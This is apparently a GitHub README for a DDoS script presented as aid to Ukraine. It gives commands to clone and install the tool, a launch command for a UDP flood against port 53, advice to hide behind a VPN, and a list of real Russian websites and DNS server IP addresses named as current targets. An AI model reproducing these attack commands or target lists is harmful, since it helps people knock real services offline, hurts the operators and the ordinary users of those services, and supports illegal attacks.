 

<h1 align="center">DDoS Attack Script to help Ukraine</h1>




<p align="center">You are advised to use a vpn! Please attack only russian websites.</p>





### Getting Started


**Clone and Install Script**

```console
git clone https://github.com/carlostkd/DoS_Attack.git
cd DoS_Attack
pip3 install -r requirements.txt
```

**Launch Script**



* Server/Home:
```console
python3 start.py udp <ip>:53 1 100
```

currently dns targets make them cry!
```console
https://ddos-guard.net/ru
https://stormwall.pro/
https://qrator.net/ru/
https://solidwall.ru/
194.54.14.185:53
194.54.14.187:53
194.67.7.1:53
194.67.2.109:53
```






